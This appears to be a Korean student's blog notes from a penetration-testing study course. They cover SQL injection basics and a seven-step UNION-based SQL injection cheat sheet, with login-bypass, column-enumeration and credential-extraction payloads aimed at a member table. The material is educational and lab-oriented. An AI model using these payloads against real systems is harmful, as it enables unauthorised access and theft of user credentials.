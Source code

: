 ```yaml
---
layout: post
title:  노말틱 모의해킹 스터디 6주차 강의 정리 
author: leewoojin
date: 2025-05-09 00:00:00 +0900
categories: [Pentest, W6]
tags: []
---
```


##  고민 방식

> 문제 발생 시!

1. 문제의 원인을 찾아라.  
2. 문제를 해결하라.  
3. 구글 검색은 영어 기반!  
   - ❌ google.kr  
   - ✅ google.com



##  SQL 인젝션은 어디에 사용되는가?

- **DB 데이터를 사용하는 곳**
- 그 데이터가 **화면에 출력되는가?**

| 구분 | 예시 |
|------|------|
| 출력됨 | 게시판 |
| 출력 안됨 | 로그인 |

```sql
-- 로그인 예시
SELECT * FROM member WHERE id = 'normaltic' AND pass = '1234'
-- SQLi 예시
' OR '1'='1'
```

##  주요 SQL 요소 정리

### 🔹 UNION
> `select * from board where idx='___'` 에서 SELECT를 한 번 더 건드릴 수 있음.

- 컬럼 수, 출력 위치가 정확히 맞아야 함.
- 짝이 맞지 않으면 **오류 발생**

### 🔹 ORDER BY
> 출력되는 데이터를 정렬할 때 사용

- `ORDER BY [컬럼명]` 또는 `ORDER BY [숫자 인덱스]`
- 인덱스가 컬럼 수보다 크면 오류

### 🔹 LIKE
> 부분 문자열 검색에 사용

```sql
WHERE title LIKE '%___%'
```

- `overwatch`, `over` → overwatch 검색됨  


##  UNION SQL Injection 치트시트

| 단계 | 설명 | 예시 |
|------|------|------|
| 1단계 | Injection 포인트 찾기 | `' OR '1'='1` → 참, `' OR '1'='2` → 거짓 |
| 2단계 | 컬럼 개수 찾기 | `' ORDER BY 1 --`, `' ORDER BY 2 --`, ... |
| 3단계 | 출력 컬럼 위치 확인 | `' UNION SELECT 1,2,3,4 --` |
| 4단계 | DB 이름 확인 | `' UNION SELECT 1,database(),3,4 --` |
| 5단계 | 테이블 이름 확인 | `FROM information_schema.tables WHERE table_schema='db명'` |
| 6단계 | 컬럼 이름 확인 | `FROM information_schema.columns WHERE table_name='member'` |
| 7단계 | 데이터 추출 | `' UNION SELECT 1,id,pass,4 FROM member --` |

> 📌 대부분 검색으로 해결 가능!  
> `mysql select column_name from information_schema.columns where ...` 식으로 찾아보자.


## 📚 과제

- [1] UNION SQL Injection 공부  
- [2] `doldol` 데이터만 출력하기 (하나만 출력되도록 구현)  
- [3] CTF 문제 풀기  
- [+] 웹 개발 (목표: 커뮤니티)  
  - 로그인  
  - 회원가입  
  - 마이페이지 (내 정보 보기)  
  - 게시판  
